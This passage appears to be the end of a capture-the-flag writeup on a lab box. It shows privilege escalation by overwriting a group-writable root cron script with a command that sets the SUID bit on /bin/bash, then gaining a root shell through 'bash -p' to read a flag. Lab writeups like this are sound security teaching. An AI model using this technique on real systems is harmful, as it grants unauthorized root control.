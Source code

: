 The next logical step is to inspect this script that is running.

```bash
ls -l /usr/local/sbin/programs_backup.sh
-rwxrw---- 1 administrator administrator 718 Dec  9 12:58 /usr/local/sbin/programs_backup.sh
```

Omg! we have the right to write to the file, this means we can input anything to it and it is going to run as root.

#### Crafting our malicious script

Let's keep it simple, let's give `/bin/bash` a SUID bit, this way we can spawn a shell as root

```bash
echo 'chmod u+s /bin/bash' > /usr/local/sbin/programs_backup.sh
```

Let's wait 1 minute and then inspect `/bin/bash`

```bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Okey ! it has the SUID bit set !!!!!
To get an interactive shell , lets CTRL+C back to mystery101, and then execute `bash`

```bash
mystery101@fitness101:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
mystery101@fitness101:~$ bash -p
bash-5.0# whoami
root
bash-5.0# 
```

BOOOOM, WE ARE IN !!!


```bash
bash-5.0# cd /root
bash-5.0# ls
flag3.txt  snap
bash-5.0# cat flag3.txt 
[REDACTED]
bash-5.0# 
```



That was it, i hope you enjoyed the writeup !

